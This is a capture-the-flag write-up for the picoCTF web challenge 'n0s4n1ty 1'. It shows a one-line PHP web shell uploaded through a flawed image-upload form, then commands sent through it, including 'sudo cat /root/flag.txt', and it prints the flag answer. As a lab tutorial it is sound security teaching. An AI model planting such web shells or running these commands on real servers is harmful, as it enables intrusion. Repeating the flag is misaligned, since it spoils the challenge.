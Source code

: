 ---
tags: [web]
---
# n0s4n1ty 1

- **Description:** A developer has added profile picture upload functionality to a website. However, the implementation is flawed, and it presents an opportunity for you. Your mission, should you choose to accept it, is to navigate to the provided web page and locate the file upload area. Your ultimate goal is to find the hidden flag located in the /root directory.
- **Difficulty:** Easy

---

## 🔎 Solution
The provided web application allows users to upload an image file. 
<div style={{ width: '100%', margin: '0 auto' }}>
  <img src={require("./upload.png").default} style={{ width: '100%', height: 'auto' }} />
</div>

For example, when uploading `red.png`, the application confirms the upload with a message like **"The file red.png has been uploaded Path: uploads/red.png"**, 
navigating to `uploads/red.png` successfully displays the image.  
But is it strictly limited to image files?
To test the server's validation, I prepared a simple PHP web shell with the following content:
```php
<?php echo shell_exec($_GET['cmd']); ?>
```

I then uploaded this file as `img.php` via the same upload interface. After the upload, I accessed it through `uploads/img.php?cmd=<command>`
- Using `?cmd=ls` listed all uploaded files such as `img.php` and `red.png`.
- Using `?cmd=pwd` revealed the current working directory: `/var/www/html/uploads`
- Executing `?cmd=whoami` showed the current user: `www-data`


When executing longer commands that include spaces, I replaced spaces with `+`. For example, `sudo -l` becomes `?cmd=sudo+-l`.
The output indicated that `www-data` can execute commands as `root` without a password.
<div style={{ width: '100%', margin: '0 auto' }}>
  <img src={require("./sudo-l.png").default} style={{ width: '100%', height: 'auto' }} />
</div>


I ran `?cmd=sudo+ls+/root` and found `flag.txt`.
Finally, I retrieved the flag with the payload: 
```
uploads/img.php?cmd=sudo+cat+/root/flag.txt
```

Here is the final output:
<div style={{ width: '70%', margin: '0 auto' }}>
  <img src={require("./flag.png").default} style={{ width: '100%', height: 'auto' }} />
</div>

## 🚩Flag
> `picoCTF{wh47_c4n_u_d0_wPHP_712a9451}`
